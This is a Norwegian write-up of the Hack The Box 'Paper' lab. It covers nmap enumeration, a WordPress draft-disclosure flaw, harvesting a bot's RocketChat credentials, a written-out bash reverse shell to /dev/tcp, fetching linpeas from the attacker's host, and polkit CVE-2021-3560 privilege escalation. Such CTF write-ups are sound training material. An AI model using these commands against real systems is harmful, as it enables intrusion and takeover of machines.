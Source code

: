 # HTB - Paper
Det første vi gjør er å kjøre nmap.

```
nmap -sV -sC xx.xx.xx.xx > nmap.txt
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

Nettsiden ser relativt tomt ut, jeg scanner siden med både gobuster og nikto. Der finner jeg en dns server som heter office.paper.

Jeg legger til den i /etc/hosts. Jeg scanner da den nettsiden videre med gobuster og ser at det er en wordpress server og bruker da wpscan til å sjekke siden for flere hull. Da ser vi at den bruker <b>Wordpress 5.2.3</b>. Og etter en kjapp google search finner vi at den har en <a href="https://www.exploit-db.com/exploits/47361">svakhet</a> for å se på tidligere drafts i nettsiden. ved å legge til ?static=1 får vi relativt kritisk informasjon som skaperen av nettsiden har lagt ut hensynsløst.
<p>Dette er da enda en DNS server, som vi kan legge til i /etc/hosts.
  
  ```
  Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
  ```
  
Denne siden lar oss lage en bruker. Dette er da et chatterom for ansatte hos Paper. Han som driver nettsiden har laget en bot som henter ut filer fra pcen sin, veldig flott ide...(sarkastisk). Etter litt graving i filene finner jeg:
  
```
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
  ```
  
I dette tilfelle var det ikke brukbart med det brukernavnet eller passordet, det jeg finner videre er at det ligger skjulte kommandoer i /hubot directory.
Der finnes det en kommando som heter run, som basicly kjører en kommando i console på linux. Det jeg gjør da er å gjøre et reverse shell med /bin/bash.
  
  ```
  /bin/bash -i >& /dev/tcp/xx.xx.xx.xx/1111 0>&1
  ```
  Deretter spawner jeg et shell med python: python3 -c 'import pty; pty.spawn("/bin/sh")'
  Og vipps vi har user flagg.
  
  <h2>root</h2>
  Jeg overfører linpeas via python webserver og kjører følgende kommandoer:
  
  ```
  wget xx.xx.xx.xx/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
  !!NB: viktig å kjøre den mest oppdaterte versjonen av linpeas!!
  <p>Denne serveren har <a href="https://access.redhat.com/security/cve/cve-2021-3560">CVE-2021-3560</a></p>
  Dette angrepet baserer seg på ren timing så exploiten må kjøres flere ganger før det fungerer. Hvordan det fungerer kan leses <a href="https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation">her.</a> Etter en 5+ ganger kjøring av exploiten så har vi injektert en bruker med tilgang til sudo og vi får root.

